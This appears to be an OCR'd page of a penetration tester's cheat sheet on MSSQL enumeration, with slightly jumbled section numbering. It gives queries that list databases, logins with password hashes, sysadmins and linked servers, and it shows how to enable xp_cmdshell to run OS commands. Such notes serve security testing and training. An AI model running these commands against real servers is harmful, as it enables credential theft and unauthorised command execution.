 # Unix Shell

## 02 - Impacket

## 06 - Database

### 6.1 - Current Database

Enumerate current database

```
1> SELECT DB_NAME();
2> go
```

### 6.2 - Retrieve Database

Enumerate all available databases

```
1> SELECT name FROM sys.databases;
2> go

1> SELECT name FROM master.dbo.sysdatabases;
2> go
```

### 6.3 - Relation Names

- Enumerate table names

```
1> SELECT * FROM <database>.INFORMATION_SCHEMA.TABLES;
2> go
```

### 6.4 - Usernames

- Gather all users from MSSQL Database

```
1> SELECT sp.name AS login, sp.type_desc AS login_type, so.password_hash, sp.create_date, sp.modify_date, CASE WHEN sp.is_disabled = 1 THEN 'Disabled' ELSE 'Enabled' END AS STATUS FROM sys.server_principals sp LEFT JOIN sys.sql_logins sl ON sp.principal_id = sl.principal_id WHERE sp.type NOT IN ('G', 'R') ORDER BY sp.name;
2> go
```

- Gather all administrators logins

```
1> SELECT loginname FROM syslogins WHERE sysadmin = 1;
2> go
```

### 6.6 - Enable `xp_cmdshell` (Manual)

Enumerate the `xp_cmdshell` whatever if it's enabled or not.

```
1> SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name = 'xp_cmdshell';
2> go
```

Enable `xp_cmdshell` for remote execution

```
1> EXEC sp_configure 'show advanced options', 1;
2> EXEC sp_configure 'xp_cmdshell', 1;
3> RECONFIGURE;
4> go

1> xp_cmdshell 'whoami';
2> go
```

### 2.3 - Enable `xp_cmdshell` (impacket)

```
SQL> enable_xp_cmdshell
```

## 05 - Linked Servers

### 5.1 - Enumerate Linked Servers

```
1> EXEC sp_linkedservers;
2> SELECT * FROM sys.servers;
3> go
```

## 04 - Operating System

### 4.1 - Hostname

Enumerate target machine hostname

```
1> SELECT HOST_NAME();
2> go
```

### 4.2 - Version

MSSQL version details

```
1> SELECT @@VERSION;
2> go
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Enumeration/Windows/MSSQL]]